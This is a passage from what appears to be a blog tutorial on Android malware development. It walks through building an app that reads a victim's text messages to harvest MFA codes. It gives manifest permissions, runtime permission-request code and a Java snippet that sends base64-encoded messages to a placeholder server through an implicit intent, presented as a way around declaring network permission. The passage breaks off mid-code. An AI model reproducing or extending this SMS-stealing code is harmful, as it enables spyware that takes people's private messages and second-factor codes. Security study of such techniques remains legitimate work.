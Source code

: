 As we did with our Windows Malware Development series, we will start simply. On Windows, that meant creating a simple shellcode loader. On Mobile, we will start by stealing text messages. If we are lucky, these text messages will contain good information like MFA codes. 

First things first, declaring the permissions our malicious application needs in our manifest file.

```xml
<uses-feature
        android:name="android.hardware.telephony"
        android:required="true" />

    <uses-permission android:name="android.permission.INTERNET" />
    <uses-permission android:name="android.permission.READ_SMS" />
    <uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
    <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE" />
```

We want permission to read SMS (otherwise, we can’t steal those text messages). With that, we also need to declare we will be using telephony hardware. These two go hand in hand.

For this scenario, we will assume we are going to exfiltrate the text messages by sending them over the network to a server we control. So, we need to declare we want permission to access the Internet.

We should note we can bypass having to declare this permission by base64 encoding our text messages and sending them to our server through GET requests using an Implicit Intent.

This would look something like so on the client:

```java
String url = "http://www.example.com?msg=QmFzZTY0IGVuY29kZWQgdGV4dCBtZXNzYWdl";
Intent i = new Intent(Intent.ACTION_VIEW);
i.setData(Uri.parse(url));
startActivity(i);
```
Notice that nothing in the code says what application should handle this. _This_ is an implicit intent. The OS will attempt to figure out which application to allow to take over.

The caveat to doing this is that a new window will open. URLs also have a length limit.

If there happens to be a lot of text messages on the device, we may need to decide how many of those messages we want or opt for another method of exfiltration.

Lastly, we also require the ability to read and write to external storage. Specifically, we are going to create a file in the Downloads directory.

As we mentioned before, reading SMS is a dangerous permission so we need to request this permission at runtime. This will be the first thing we do.

```java
String[] permission = {Manifest.permission.READ_SMS};
if (ContextCompat.checkSelfPermission(
                this, Manifest.permission.READ_SMS) ==
                PackageManager.PERMISSION_GRANTED) {
            try {
                readMessages();
            } catch (IOException e) {
                throw new RuntimeException(e);
            }
        } else {
            ActivityCompat.requestPermissions(this, permission, 1);
```

